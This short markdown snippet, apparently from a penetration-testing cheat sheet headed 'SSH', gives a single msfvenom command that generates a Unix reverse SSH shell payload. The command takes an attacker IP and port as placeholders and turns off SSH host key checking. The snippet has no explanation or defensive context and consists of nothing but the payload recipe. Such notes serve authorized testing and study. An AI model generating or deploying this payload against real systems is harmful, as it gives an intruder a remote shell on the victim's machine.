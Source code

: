 # SSH

## 01 - Generate a payload via `msfvenom`

```
$ msfvenom -p cmd/unix/reverse_ssh shellpath=/bin/sh [sshpath=/path/to/ssh] sshclientoptions="UserKnownHostsFile=/dev/null StrictHostKeyChecking=no" lhost=<IP> lport=<PORT>
```
